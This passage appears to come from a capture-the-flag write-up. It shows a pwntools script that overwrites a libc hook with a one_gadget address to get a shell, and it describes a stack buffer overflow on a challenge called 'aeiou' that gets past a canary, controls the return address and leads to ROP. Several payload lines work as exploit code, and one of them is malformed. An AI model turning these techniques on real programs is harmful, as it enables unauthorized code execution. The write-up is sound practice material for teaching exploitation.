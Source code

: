 ```python=
r.sendlineafter(":","1")
r.sendlineafter(":","0")
r.sendlineafter(":","3")
r.sendlineafter(":","1")
r.sendlineafter(":","0")

r.sendlineafter(":","6")
r.sendlineafter(":","1")
r.sendlineafter(":",p64(libc+0x3ed8e8))

r.sendlineafter(":","1")
r.sendlineafter(":","0")
r.sendlineafter(":","1")
r.sendlineafter(":","0")
r.sendlineafter(":","6")
r.sendlineafter(":","3")
r.sendlineafter(":",p64(libc+0x4f322))

r.sendlineafter(":","3")
r.sendlineafter(":","1")
r.sendlineafter(":","0")



r.interactive()
```

### aeiou
> tens

trial and error....

input

```
payload = "D"*0x2000
Tn(len(payload),payload)
```
No crash but the program hangs.
```
payload = "\x00"*0x2000
Tn(len(payload),payload)
```
Successfully bypass stack canary and overwrite ret address to 0.
```
payload = "\x00"0x1018 + "D"0x200 + "\x00"*0x800
Teaching_numbers(len(payload),payload)
```
Overwrite ret address to 0x4444444444444444

ROP and get shell

`FLAG{CheEr_Up!_If_you_4re_pRepareD_t0_ad4pt_aNd_lEaRN,you_C4n_41lC1ear}`
